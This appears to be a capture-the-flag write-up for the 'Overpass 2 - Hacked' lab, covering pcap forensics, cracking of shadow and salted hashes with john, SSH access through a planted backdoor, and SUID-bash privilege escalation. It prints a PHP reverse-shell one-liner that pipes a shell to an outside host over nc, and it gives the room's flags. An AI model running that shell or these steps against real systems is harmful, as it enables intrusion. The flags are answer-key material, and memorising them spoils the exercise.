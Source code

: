 # Overpass 2 - Hacked

## Forensics

**Related files**
* `overpass2.pcapng` - Wireshark packet file
* `upload.php` - Uploaded php script
* `shadow` - Shadow file
* `shadow_hashes` - List of hashes from `shadow` file
* `fasttrack.txt` - Wordlist for hash cracking

Analyzing the `.pcapng` file we can see that the `/development/` page is what was used to upload a reverse shell. The file itself contained the following php script: `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>` (located in `upload.php`). Once in the password `whenevernoteartinstant` was used for privelage escalation. To establish persistence the attacker used [this](https://github.com/NinjaJc01/ssh-backdoor) repository. From the passwords in the shadow file `4` of them were able to be cracked using the `fasttrack.txt` wordlist using `john --wordlist=fasttrack.txt shadow_hashes` as the command:

```
secret12
abcd123
1qaz2wsx
secuirty3
```

## Research

**Related files**
* `hash` - File containing hash and salt in format: hash$salt

The default hash and salt can be found by looking at the Github repository in the `main.go` file. The default hash is `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3` and the hardcoded salt is `1c362db832f3f864c8c2fe05f2002a05`. The hash that the attacker specifically used is `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`. Using `john -format='dynamic=sha512($p.$s)' --wordlist=/usr/share/wordlists/rockyou.txt hash` The `hash$salt` combination string was able to be decrypted to be `november16`.

## Attack

**Related files**
* `nmap.log` - Nmap log

By running an `nmap` scan we can see that ports 22, 80 and 2222 are open. By looking at the website hosted on port 80 we can see that the message left was `H4ck3d by CooctusClan`. To get a shell on the server we can try to ssh with both port 22 and 2222 with the credentials and passwords that we have found. The combination that ends up working is `ssh -p 2222 james@10.10.228.58` being the command and `november16` being the password. The user flag can be easily found as `thm{d119b4fa8c497ddb0525f7ad200e6567}`. Running linpeas allows us to see that we have sudo permissions. Attempting to run sudo with any password that we have will not work so we need to figure something else out. In the SUID section it hints to a file called `.suid_bash` so we attempt to run it with `./.suid_bash -p` to hopefully get us a privileged shell which works! After this we can simply just cat out the root flag which is `thm{d53b2684f169360bb9606c333873144d}`.